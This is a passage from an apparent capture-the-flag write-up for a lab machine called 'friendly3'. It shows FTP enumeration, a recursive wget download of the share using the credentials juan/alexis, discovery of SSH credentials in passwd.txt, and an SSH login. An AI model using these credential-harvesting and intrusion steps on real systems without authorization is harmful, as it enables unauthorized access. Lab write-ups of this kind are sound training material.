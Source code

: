 ```shell
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold14
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold15
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold4
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold5
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold6
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold7
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold8
drwxr-xr-x    2 0        0            4096 Jun 25  2023 fold9
-rw-r--r--    1 0        0              58 Jun 25  2023 fole32
```
Once logged in ftp and listing the files we can see there are a lot of files. There are two of those with different size and also there ara some folders. 


```shell
ftp> get file80
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file80 (36 bytes).
226 Transfer complete.
36 bytes received in 0.0323 seconds (1.09 kbytes/s)
ftp> !
```

```shell
cat file80
─────┬──────────────────────────────────────
     │ File: file80
─────┼──────────────────────────────────────
 1   │ Hi, I'm the sysadmin. I am bored...
```

Nothing for now, lets use in order to all the files at once and do it very quickly. 

```shell
wget --ftp-user=juan --ftp-password=alexis -r ftp://192.168.1.85
```

Once we've got all the files, we can use `tree` to get a better preview. 
```shell
├── fold5
│   └── yt.txt
├── fold6
├── fold7
├── fold8
│   └── passwd.txt
```

## Explotation 
On _fold8_ there is a file called passwd.txt where ssh credentials are stored. 

```shell
ssh juan@192.168.1.85
juan@192.168.1.85's password: 
Linux friendly3 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
juan@friendly3:~$ 
```
